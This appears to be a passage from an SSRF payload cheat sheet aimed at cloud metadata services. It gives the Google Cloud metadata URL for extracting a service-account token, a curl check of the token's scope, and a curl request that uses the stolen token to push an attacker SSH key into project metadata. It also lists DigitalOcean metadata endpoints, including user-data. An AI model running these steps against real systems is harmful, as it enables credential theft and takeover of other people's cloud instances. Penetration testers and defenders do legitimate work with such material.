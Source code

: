 **Add an SSH key**

Extract the token

```
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

Check the scope of the token

```
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA

{
        "issued_to": "101302079XXXXX",
        "audience": "10130207XXXXX",
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring",
        "expires_in": 2443,
        "access_type": "offline"
}
```

Now push the SSH key.

```
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata"-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA"-H "Content-Type: application/json"--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

**SSRF URL for Digital Ocean**

Documentation available at `https://developers.digitalocean.com/documentation/metadata/`

```
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

All in one request:
curl http://169.254.169.254/metadata/v1.json | jq
```

**SSRF URL for Packetcloud**

Documentation available at `https://metadata.packet.net/userdata`

**SSRF URL for Azure**

Limited, maybe more exists? `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`
